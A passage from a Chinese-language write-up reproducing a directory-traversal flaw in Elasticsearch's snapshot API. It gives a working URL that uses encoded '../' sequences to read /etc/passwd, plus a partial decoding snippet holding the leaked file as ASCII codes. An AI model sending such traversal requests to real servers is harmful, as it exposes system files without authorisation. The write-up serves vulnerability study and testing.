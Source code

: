 ```
}
```

elasticsearch 中 备份的快照保存在备份仓库中的命名格式是以snapshot-xxx的格式

所以snapshot-backdata  会被误以为是test仓库的backdata快照，快照都是文件形式保存的，而snapshot-backdata是目录，elasticsearch  没有区分，如果elasticsearch发现其是目录之后，就继续读取目录下的内容，如果目录下的文件明称是恶意构造的(类似../../../)  elasticsearch就会去读取这个递归读取文件的内容（这里elasticsearch没有过滤..），从而导致目录遍历（任意文件内容读取）

![image-20211207094647990](https://s2.loli.net/2022/03/26/bBtrj5lpRoPELSJ.png)

访问**http://IP:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd**，可读取到服务器的账号信息，是**ascii编码**的，

![](https://s2.loli.net/2022/03/26/bBtrj5lpRoPELSJ.png)

![](https://s2.loli.net/2022/03/26/9WMEZLJkXRGgnpr.png)

需要自行解码，以下为解码的脚本：

```
p='114, 111, 111, 116, 58, 120, 58, 48, 58, 48, 58, 114, 111, 111, 116, 58, 47, 114, 111, 111, 116, 58, 47, 98, 105, 110, 47, 98, 97, 115, 104, 10, 100, 97, 101, 109, 111, 110, 58, 120, 58, 49, 58, 49, 58, 100, 97, 101, 109, 111, 110, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 98, 105, 110, 58, 120, 58, 50, 58, 50, 58, 98, 105, 110, 58, 47, 98, 105, 110, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 115, 121, 115, 58, 120, 58, 51, 58, 51, 58, 115, 121, 115, 58, 47, 100, 101, 118, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 115, 121, 110, 99, 58, 120, 58, 52, 58, 54, 53, 53, 51, 52, 58, 115, 121, 110, 99, 58, 47, 98, 105, 110, 58, 47, 98, 105, 110, 47, 115, 121, 110, 99, 10, 103, 97, 109, 101, 115, 58, 120, 58, 53, 58, 54, 48, 58, 103, 97, 109, 101, 115, 58, 47, 117, 115, 114, 47, 103, 97, 109, 101, 115, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 109, 97, 110, 58, 120, 58, 54, 58, 49, 50, 58, 109, 97, 110, 58, 47, 118, 97, 114, 47, 99, 97, 99, 104, 101, 47, 109, 97, 110, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 108, 112, 58, 120, 58, 55, 58, 55, 58, 108, 112, 58, 47, 118, 97, 114, 47, 115, 112, 111, 111, 108, 47, 108, 112, 100, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 109, 97, 105, 108, 58, 120, 58, 56, 58, 56, 58, 109, 97, 105, 108, 58, 47, 118, 97, 114, 47, 109, 97, 105, 108, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 110, 101, 119, 115, 58, 120, 58, 57, 58, 57, 58, 110, 101, 119, 115, 58, 47, 118, 97, 114, 47, 115, 112, 111, 111, 108, 47, 110, 101, 119, 115, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 117, 117, 99, 112, 58, 120, 58, 49, 48, 58, 49, 48, 58, 117, 117, 99, 112, 58, 47, 118, 97, 114, 47, 115, 112, 111, 111, 108, 47, 117, 117, 99, 112, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 112, 114, 111, 120, 121, 58, 120, 58, 49, 51, 58, 49, 51, 58, 112, 114, 111, 120, 121, 58, 47, 98, 105, 110, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 119, 119, 119, 45, 100, 97, 116, 97, 58, 120, 58, 51, 51, 58, 51, 51, 58, 119, 119, 119, 45, 100, 97, 116, 97, 58, 47, 118, 97, 114, 47, 119, 119, 119, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 98, 97, 99, 107, 117, 112, 58, 120, 58, 51, 52, 58, 51, 52, 58, 98, 97, 99, 107, 117, 112, 58, 47, 118, 97, 114, 47, 98, 97, 99, 107, 117, 112, 115, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 108, 105, 115, 116, 58, 120, 58, 51, 56, 58, 51, 56, 58, 77, 97, 105, 108, 105, 110, 103, 32, 76, 105, 115, 116, 32, 77, 97, 110, 97, 103, 101, 114, 58, 47, 118, 97, 114, 47, 108, 105, 115, 116, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 105, 114, 99, 58, 120, 58, 51, 57, 58, 51, 57, 58, 105, 114, 99, 100, 58, 47, 118, 97, 114, 47, 114, 117, 110, 47, 105, 114, 99, 100, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 103, 110, 97, 116, 115, 58, 120, 58, 52, 49, 58, 52, 49, 58, 71, 110, 97, 116, 115, 32, 66, 117, 103, 45, 82, 101, 112, 111, 114, 116, 105, 110, 103, 32, 83, 121, 115, 116, 101, 109, 32, 40, 97, 100, 109, 105, 110, 41, 58, 47, 118, 97, 114, 47, 108, 105, 98, 47, 103, 110, 97, 116, 115, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 110, 111, 98, 111, 100, 121, 58, 120, 58, 54, 53, 53, 51, 52, 58, 54, 53, 53, 51, 52, 58, 110, 111, 98, 111, 100, 121, 58, 47, 110, 111, 110, 101, 120, 105, 115, 116, 101, 110, 116, 58, 47, 117, 115, 114, 47, 115, 98, 105, 110, 47, 110, 111, 108, 111, 103, 105, 110, 10, 95, 97, 112, 116, 58, 120, 58, 49, 48, 48, 58, 54, 53, 53, 51, 52, 58, 58, 47, 110, 111, 110, 101, 120, 105, 115, 116, 101, 110, 116, 58, 47, 98, 105, 110, 47, 102, 97, 108, 115, 101, 10'
q=p.replace(',','')  #将数值中间的/替换为,

```